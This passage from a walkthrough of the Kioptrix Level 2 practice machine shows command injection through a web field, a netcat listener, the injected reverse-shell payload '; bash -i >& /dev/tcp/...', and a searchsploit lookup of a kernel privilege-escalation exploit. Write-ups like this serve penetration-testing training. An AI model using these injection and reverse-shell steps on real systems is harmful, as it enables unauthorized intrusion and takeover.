 Though we can't retrieve the shadow file due to the user privileges.

* `;uname -a` more details about the system:

```console
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

Now we know the **Kernel version** + we know the operating system is **CentOS** as per nmap scan results.

## Create a shell session
Open a shell session:
   * Set up netcat listener using `nc -lvp 1337`
   * Using the `; bash -i >& /dev/tcp/kioptrix/1337 0>&1` payload I was able to create a reverse-shell
Now we have shell using apache user.

## searchsploit
According to searchsploit we have a potential local exploit we can use if we have shell on the system - **exploit 9545**:

```console
$ searchsploit Linux Kernel CentOS
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
...
Linux Kernel (Debian 7/8/9/10 / Fedora 23/24/25 / CentOS 5.3/5.11/6.0/6.8/7.2.1511) - 'ldso_hwcap Stack Clash' Local Privi | linux_x86/local/42274.c
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Local Pr | linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Esc | linux/local/9479.c
...
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Copy the exploit path and copy the file to our local folder. We'll need to upload it to the target later.

```console
$ searchsploit -p 9545            
  Exploit: Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/9545
     Path: /usr/share/exploitdb/exploits/linux/local/9545.c
File Type: C source, ASCII text, with CRLF line terminators
```

